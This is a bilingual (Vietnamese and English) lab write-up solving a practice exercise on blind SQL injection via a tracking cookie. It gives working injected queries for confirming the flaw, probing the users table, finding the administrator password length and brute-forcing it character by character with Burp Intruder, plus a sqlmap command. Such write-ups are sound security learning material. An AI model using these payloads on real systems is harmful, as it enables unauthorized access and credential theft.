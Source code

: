 # Lab: Blind SQL injection with conditional responses

This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.

The results of the SQL query are not returned, and no error messages are displayed. But the application includes a "Welcome back" message in the page if the query returns any rows.

The database contains a different table called users, with columns called username and password. You need to exploit the blind SQL injection vulnerability to find out the password of the administrator user.

To solve the lab, log in as the administrator user.


# Overview

Ở lab này có lỗ hổng blind SQL. Ứng dụng này sử dụng tracking cookie để phân tích, và biểu diễn SQL query gồm các giá trị cookie được nhập vào.Kết quả của cuộc truy vấn không được trả lại, và không error messages được hiện lên. Nhưng ứng dụng thì bao gồm tin nhắn `Welcome back` ở trang web nếu query trả lại.

Ta cần đăng nhập vào administrator user

Form lab

![image](https://user-images.githubusercontent.com/115911041/232667041-aaff9df7-e91e-4d6b-8680-a669c9d984f5.png)

# Solution

**Confirm vulnerable parameter**

Bởi vì là blind SQL, ta không thể thấy bất kì kết quả của cuộc truy vấn. Tuy nhiên, bởi vì chúng ta có thể request có cho phép dành cho các câu trả lời `True` hoặc `False` 

Bước đầu tiên, ta cần xác định lỗ hổng bằng cách đưa requests cho ra câu trả lời `True` hoặc `False`

**Query**

Query được sử dụng trong lab này sẽ như thế này
```
SELECT trackingId FROM someTable WHERE trackingID = '<COOKIE_VALUE>'
```

![image](https://user-images.githubusercontent.com/115911041/232670060-97d3b04a-285a-4315-a488-aecb2cdd0a52.png)

`Cookie TrackingId=oLNIUOwSGHWlzJH1; session=7B6p6OLLq4GUkMRhCwcZQprHcyc8CRzH`

Ta thấy có xuất hiện `Welcome back` ở phần Response

**True**

```
SELECT trackingId FROM someTable WHERE trackingId = 'oLNIUOwSGHWlzJH1' and 1=1--'
```
![image](https://user-images.githubusercontent.com/115911041/232671266-492e4f61-95d9-433a-8a83-2950e05a114f.png)
Ta thấy có xuất hiện `Welcome back` ở phần Response

**False**
```
SELECT trackingId FROM someTable WHERE trackingId = 'oLNIUOwSGHWlzJH1' and 1=2--'
```
![image](https://user-images.githubusercontent.com/115911041/232671623-2118d0f1-95ab-4c58-b95d-9759a0b7d022.png)
Không thấy xuất hiện `Welcome back`

**Confirm expected table**

Đầu tiên, mình xác nhận table `users` có tồn tại hay không. Lần này, mình sử dụng string dạng chữ từ table và so sánh nó.

``` 
SELECT trackingID FROM someTable WHERE trackingId = 'oLNIUOwSGHWlzJH1' and (select 'x' from users LIMIT 1)='x'--
```
![image](https://user-images.githubusercontent.com/115911041/232673130-8aab11dc-aa5c-4857-a2a0-db5988c96dd2.png)

Có kết quả `Welcome back`

**Verify columns exit as excepted**

```
SELECT trackingId FROM someTable WHERE trackingId = 'oLNIUOwSGHWlzJH1' and (select username from users where username='administrator')='administrator'--
```
![image](https://user-images.githubusercontent.com/115911041/232674592-c908658c-b912-47be-b4ed-bf710bd5b3f9.png)

Xuất hiện `Welcome back`

**Get the length of the password**

Tìm dộ dài của password.Ở đây, chúng ta sử dụng hàm `LENGTH` của database và so sánh nó với số.

![image](https://user-images.githubusercontent.com/115911041/232674862-29620f44-9689-478f-b8dc-2255dcf0e2cb.png)

Không cho ra `Welcome back`, password không có độ dài là 1

Thay vào đó, mình có thể kiểm tra lớn hơn thay vì bằng. Ở kết quả `Welcome back` nghĩa là password có độ dài lớn hơn 1.

Brute force độ dài với Burp Intruder (Sniper, Payload 1)

![image](https://user-images.githubusercontent.com/115911041/232675581-22e6d236-256a-4f15-8286-2d40ef956497.png)

![image](https://user-images.githubusercontent.com/115911041/232675635-5a1aa5b2-e598-4425-8184-caa3d4635c58.png)

Sau đó attack, kiểm tra request nào xuất hiện `Welcome back` thì sẽ ra độ dài của password ở vị trí đó. Mình thì độ dài là 20.

**Enumerate password of the administrator**

Ta đã có độ dài của password, bây giờ đã có thể brute force từng kí tự. Nếu database có lưu trữ hàm hash của password, ta có thể extract hash để cracking offline.

```
SELECT trackingId FROM someTable WHERE trackingId = 'oLNIUOwSGHWlzJH1' and (select substring(password,1,1) from users where username='administrator')='a'--
```
![image](https://user-images.githubusercontent.com/115911041/232677055-c0e64e5e-498a-4551-80db-8c930243ed3e.png)

Ta nhận ra rằng kí tự đầu tiên không phải là `a`, sử dụng Burp Intruder để Brute Force

Attack type: ***Cluster bomb***

![image](https://user-images.githubusercontent.com/115911041/232677551-c4da07a3-98e5-4fb6-989e-1137856b9439.png)

***Payload 1: numeric squential, 1..20***
***Payload 2: Brute force

![image](https://user-images.githubusercontent.com/115911041/232677811-97a163e8-2bfe-450e-867f-d64e8111da07.png)

Theo như số thứ tự của payload 1 sẽ cho ra password:
`iwdzus40xqlsq8zms6v0`

**Tiến hành đăng nhập**

![image](https://user-images.githubusercontent.com/115911041/232678012-ab200efa-8465-4749-b2cf-f941c9ecf68b.png)

# SQL map:

Ta vẫn làm giống cách Burp Suite. Dựa vào lỗ hổng ở phần category. Truy cập vào mục bất kì, sau đó list toàn bộ database bằng sqlmap

`python3 sqlmap.py -u "https://0a41004804f8311284e6eb0e00cd00b8.web-security-academy.net/filter?category=Corporate+gifts" --dbs`




